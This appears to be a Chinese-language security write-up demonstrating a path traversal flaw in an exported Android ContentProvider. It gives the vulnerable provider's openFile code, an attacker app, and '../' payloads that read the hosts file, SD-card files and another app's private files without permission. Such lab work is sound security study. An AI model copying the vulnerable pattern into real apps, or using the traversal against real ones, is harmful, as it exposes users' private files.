





1. http://blog.csdn.net/u012417380/article/details/53207448
2. https://yq.aliyun.com/articles/20461

> 如果下文有一个地方看不明白，可以先往下看，看完一节，应该会明白之前不明白的内容。
> 本篇文字的局限性：从点入手(只从一个方法考虑了目录遍历问题。)

## 一、结论
漏洞成立

## 二、危害
- 可以通过此漏洞完成越权文件遍历。

## 三、测试代码
### 3.1、靶机 ForBroadcast
AndroidManifest.xml
```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.example.tom.forbroadcast">

    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
    <!--    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE" />-->

    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/AppTheme">
        <activity android:name=".MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>

        <provider
            android:name="com.example.tom.contentprovider.MyContentProvider"
            android:authorities="authorities;testin.cn"
            android:exported="true" />
        <!--            android:permission="permission"
                    android:readPermission="readPermission"
                    android:writePermission="writePermission"-->
    </application>

</manifest>
```
布局代码 activity_main.xml
```xml
        <EditText
            android:id="@+id/et_writeData"
            android:layout_width="match_parent"
            android:layout_height="wrap_content"
            android:hint="本内容添加到下面按钮所创建的文件中"
            android:text="^_^  [明天你好！]  ^_^" />

        <TableRow
            android:layout_width="match_parent"
            android:layout_height="wrap_content">

            <Button
                android:id="@+id/btn_createPrivateFile"
                android:layout_width="match_parent"
                android:layout_height="wrap_content"
                android:layout_weight="1"
                android:text="create Private File" />

            <Button
                android:id="@+id/btn_readPrivateFile"
                android:layout_width="match_parent"
                android:layout_height="wrap_content"
                android:layout_weight="1"
                android:text="read Private File" />
        </TableRow>
```
ContentProvider 子类 MyContentProvider
```java
public class MyContentProvider extends ContentProvider {
    //非焦点代码
    @Nullable
    @Override
    public ParcelFileDescriptor openFile(@NonNull Uri uri, @NonNull String mode) throws FileNotFoundException {
        Log.i("haha", uri.toString());
        Log.i("haha：uri.getPath", uri.getPath());
        File file = new File(getContext().getFilesDir(), uri.getPath());
        if (file.exists()) {
            Log.i("haha", "读取文件成功了：" + file.getPath());
            //Log.i("haha", "读取文件成功了getAbsolutePath：" + file.getAbsolutePath());
            //return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_WRITE);
            return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
        } else {
            Log.i("haha", "本应用认为文件不存在：" + file.getPath());
        }
        throw new FileNotFoundException(uri.getPath());
    }
}
```
UI 界面 MainActivity.java
```java
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        findViewById(R.id.btn_createPrivateFile).setOnClickListener(this);
        findViewById(R.id.btn_readPrivateFile).setOnClickListener(this);

        this.etWriteData = (EditText) findViewById(R.id.et_writeData);

        getPermission();
    }

    private void getPermission() {
        switch (ContextCompat.checkSelfPermission(this, Manifest.permission.READ_EXTERNAL_STORAGE)) {
            case PERMISSION_GRANTED:
                Toast.makeText(this, "权限已经被授予了", Toast.LENGTH_SHORT).show();
                break;
            case PERMISSION_DENIED:
                //ActivityCompat.shouldShowRequestPermissionRationale(MainActivity.this,Manifest.permission.READ_EXTERNAL_STORAGE))
                Log.i("haha", "111");
                ActivityCompat.requestPermissions(this, new String[]{Manifest.permission.READ_EXTERNAL_STORAGE, Manifest.permission.WRITE_EXTERNAL_STORAGE}, 1);
                Log.i("haha", "222");
                break;
        }
    }

        @Override
    public void onClick(View v) {
        String etStr;
        List<String> result;
        switch (v.getId()) {
            case R.id.btn_createPrivateFile://在私有目录中创建文件并写入内容
                String writeFileName = this.getFilesDir() + "/LOOPHOLE.loophole";
                File writeFile = new File(writeFileName);
                if (!writeFile.exists()) {
                    try {
                        if (writeFile.createNewFile()) {
                            Log.i("haha", "创建文件成功");
                            //创建一个printWriter类的实例，其构造函函数是一个File对象
                            PrintWriter pw = new PrintWriter(writeFile);
                            //调用writer()方法写入数据
                            pw.write(etWriteData.getText().toString());
                            //调用close()方法释放资源
                        } else {
                            Log.i("haha", "创建文件失败");
                        }
                    } catch (IOException e) {
                        Log.i("haha", "写文件失败");
                        e.printStackTrace();
                    }
                } else {
                    Log.i("haha", "文件已经存在了");
                    try {
                        //创建一个printWriter类的实例，其构造函函数是一个File对象
                        PrintWriter pw = new PrintWriter(writeFile);
                        //调用writer()方法写入数据
                        pw.write(etWriteData.getText().toString());
                        //调用close()方法释放资源
                        pw.close();
                        Log.i("haha", "写文件成功");
                    } catch (IOException e) {
                        Log.i("haha", "写文件失败");
                        e.printStackTrace();
                    }
                }
                break;
            case R.id.btn_readPrivateFile:
                String readFileName = this.getFilesDir() + "/LOOPHOLE.loophole";
                File readFile = new File(readFileName);
                if (!readFile.exists()) {
                    Toast.makeText(this, "LOOPHOLE.loophole 尚未创建", Toast.LENGTH_SHORT).show();
                    break;
                } else {
                    FileInputStream fin = null;
                    try {
                        fin = new FileInputStream(readFile);
                        int length = fin.available();
                        byte[] buffer = new byte[length];
                        fin.read(buffer);
                        String readResult = new String(buffer);
                        Toast.makeText(this, "内容：" + readResult, Toast.LENGTH_SHORT).show();
                        fin.close();
                    } catch (IOException e) {
                        Toast.makeText(this, "LOOPHOLE.loophole 读取失败", Toast.LENGTH_SHORT).show();
                        e.printStackTrace();
                    }
                }
                break;

            default:
                Toast.makeText(this, "未定义的点击事件", Toast.LENGTH_SHORT).show();
                Log.i("haha", "未定义的点击事件");
        }
    }
```
### 3.2、攻击机
AndroidManifest.xml
```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.example.tom.sendbroadcast">
    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/AppTheme">
        <activity android:name=".MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

</manifest>
```
布局文件 activity_main.xml
```xml
    <EditText
        android:id="@+id/et_package"
        android:layout_width="match_parent"
        android:layout_height="wrap_content"
        android:hint="authorities"
        android:text="authorities" />

    <EditText
        android:id="@+id/et_fileName"
        android:layout_width="match_parent"
        android:layout_height="wrap_content"
        android:hint="要读取的文件"
        android:text="../../../../system/etc/hosts" />
    <!--../../../../system/etc/hosts-->
    <!--../../../../../../../storage/emulated/0/Download/qqqq.txt-->

    <TableRow
        android:layout_width="match_parent"
        android:layout_height="wrap_content">

        <!--通过contentProvider来读取-->
        <Button
            android:id="@+id/btn_read_file"
            android:layout_width="match_parent"
            android:layout_height="wrap_content"
            android:layout_weight="1"
            android:text="content provider read file" />

        <!--通过直接获取文件的方式读取-->
        <Button
            android:id="@+id/btn_simple_read_file"
            android:layout_width="match_parent"
            android:layout_height="wrap_content"
            android:layout_weight="1"
            android:text="simple read file" />

    </TableRow>
```
交互界面  MainActivity.java
```java
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        this.initView();
    }

    private void initView() {
        this.findViewById(R.id.btn_read_file).setOnClickListener(this);//通过ContentProvdier读取文件
        this.findViewById(R.id.btn_simple_read_file).setOnClickListener(this);//执行读取文件
        this.etPackage = (EditText) findViewById(R.id.et_package);
        this.etFileName = (EditText) findViewById(R.id.et_fileName);
    }

    @Override
    public void onClick(View v) {
        Intent intent = new Intent();
        intent.putExtra("msg", "hahahahhaha");
        intent.setPackage("com.example.tom.sendbroadcast");

        switch (v.getId()) {
            case R.id.btn_read_file://通过不合理的外部ContentProvider读取文件
                //this.getPermission();
                String fileUri = "content://" + etPackage.getText().toString() + "/" + etFileName.getText().toString();
                Log.i("haha", fileUri);
                ContentResolver cr = getContentResolver();
                try {

                    InputStream inputStream = cr.openInputStream(Uri.parse(fileUri));
                    FileInputStream in = (FileInputStream) inputStream;
                    byte[] buff = new byte[in.available()];
                    in.read(buff);
                    tvMsg.setText(new String(buff));
                } catch (IOException e) {
                    // TODO Auto-generated catch block
                    tvMsg.setText("IOException");
                    e.printStackTrace();
                }
                break;

            case R.id.btn_simple_read_file://通过常规方式读取文件内容以下两个路径均读取失败
                //String readFileName = "/data/user/0/com.example.tom.forbroadcast/files" + "/LOOPHOLE.loophole";
                //String readFileName = "/data/data/com.example.tom.forbroadcast/files/LOOPHOLE.loophole";
                String readFileName = "/system/etc/hosts";
                File readFile = new File(readFileName);
                if (!readFile.exists()) {
                    Toast.makeText(this, "LOOPHOLE.loophole 尚未创建", Toast.LENGTH_SHORT).show();
                    break;
                } else {
                    FileInputStream fin = null;
                    try {
                        fin = new FileInputStream(readFile);
                        int length = fin.available();
                        byte[] buffer = new byte[length];
                        fin.read(buffer);
                        String readResult = new String(buffer);
                        Toast.makeText(this, "内容：" + readResult, Toast.LENGTH_SHORT).show();
                        fin.close();
                    } catch (IOException e) {
                        Toast.makeText(this, "LOOPHOLE.loophole 读取失败", Toast.LENGTH_SHORT).show();
                        e.printStackTrace();
                    }
                }
                break;
        }

        sendBroadcast(intent);
        //sendBroadcastAsUser(intent, UserHandle.ALL, "android.Manifest.permission.MANAGE_USERS");

    }
```
## 四、截图效果说明（本节：我们只关注黑框中的 UI ）

### 4.1 读取 "/system/etc/hosts"
这个文件意义不大，因为不管是否具有权限或者是否通过 ContentProvider 都可以读取到。
- 点击 Simple Read File (Toast 即读取结果)
    - 通过一般的方式读取文件 ：不通过 ContentProvider
- 点击 Content Provider Read File (按钮下方的 TextView 即读取结果)
    - 通过 靶机(Content Provider) 读取
- 

### 4.2 读取 SDCard 文件 "storage/emulated/0/Download/qqqq.txt"
本例说明了越权和遍历任意目录两个方面的风险。
- 越权体现在 攻击机(SendBroadcast) 不具有读 SDCard 权限(`READ_EXTERNAL_STORAGE`) 却成功读取了 SDCard 中的内容。当然了 通过 靶机(ForBroadcast) 中有风险的 ContentProvider 完成。
- 遍历任意文件目录体现在可以通过 `../` 完成目录遍历
    - 靶机(ForBroadcast) 中的拼接语句`File file = new File(getContext().getFilesDir(), uri.getPath());`
        - `getContext().getFilesDir()` 返回值 ： `/data/user/0/com.example.tom.forbroadcast/files`
        - `file.getPath`返回值：`/data/user/0/com.example.tom.forbroadcast/files/+uri.getPath()`
            在 4.1 节中 `file.getPath`返回值：`/data/user/0/com.example.tom.forbroadcast/files/../../../../storage/emulated/0/Download/qqqq.txt`

操作说明：
- 点击 Simple Read File (Toast 即读取结果)
    - 通过一般的方式读取文件 ：不通过 ContentProvider
- 点击 Content Provider Read File (按钮下方的 TextView 即读取结果)
    - 通过 靶机(Content Provider) 读取

- 

### 4.3、 读取文件 "/data/data/com.example.tom.forbroadcast/files/LOOPHOLE.loophole"
本例说明了越权和遍历任意目录两个方面的风险。
- 越权体现在 攻击机(SendBroadcast) 不具有读其他应用是有目录的权限却成功读取了。当然了 通过 靶机(ForBroadcast) 中有风险的 ContentProvider 完成。
- 遍历任意文件目录体现在可以通过 `../` 完成目录遍历

创建读取私有目录文件
- 文件创建路径`String readFileName = this.getFilesDir() + "/LOOPHOLE.loophole";`
- `this.getFilesDir() `的打印为：/data/user/0/com.example.tom.forbroadcast/files

靶机操作说明
1. 创建文件：
    - 点击 Create Private File 
2. 文件中写入内容
    - 再次点击 Create Private File 
2. 验证写入是否成功：
    - 点击Read Private File
    - 命令行是读取创建之后的内容

-      
- 

攻击机操作说明
- 点击 Simple Read File (Toast 即读取结果)
    - 通过一般的方式读取文件 ：不通过 ContentProvider
- 点击 Content Provider Read File (按钮下方的 TextView 即读取结果)
    - 通过 靶机(Content Provider) 读取
- 